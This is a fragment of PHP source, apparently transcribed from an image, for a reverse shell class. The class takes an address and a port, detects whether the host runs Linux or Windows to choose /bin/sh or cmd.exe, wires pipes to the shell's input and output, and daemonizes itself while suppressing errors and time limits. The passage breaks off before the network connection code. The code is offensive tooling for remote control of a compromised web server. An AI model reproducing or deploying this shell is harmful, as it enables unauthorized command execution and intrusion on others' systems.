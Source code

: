 ```shell
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer = 1024;  // read/write buffer size
    private $clen   = 0;     // command length
    private $error  = false; // stream read/write error
    private $sdump  = true;  // script's dump
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        $os = PHP_OS;
        if (stripos($os, 'LINUX') !== false || stripos($os, 'DARWIN') !== false) {
            $this->os    = 'LINUX';
            $this->shell = '/bin/sh';
        } else if (stripos($os, 'WINDOWS') !== false || stripos($os, 'WINNT') !== false || stripos($os, 'WIN32') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function_exists('pcntl_fork')) {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        } else if (($pid = @pcntl_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
            // once daemonized, you will actually no longer see the script's dump
        } else if (posix_setsid() < 0) {
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        return $exit;
    }
    private function settings() {
        @error_reporting(0);
        @set_time_limit(0); // do not impose the script execution time limit
        @umask(0); // set the file/directory permissions - 666 for files and 777 for directories
    }
    private function dump($data) {
        if ($this->sdump) {
            $data = str_replace('<', '&lt;', $data);
            $data = str_replace('>', '&gt;', $data);
            echo $data;
        }
    }
    private function read($stream, $name, $buffer) {
```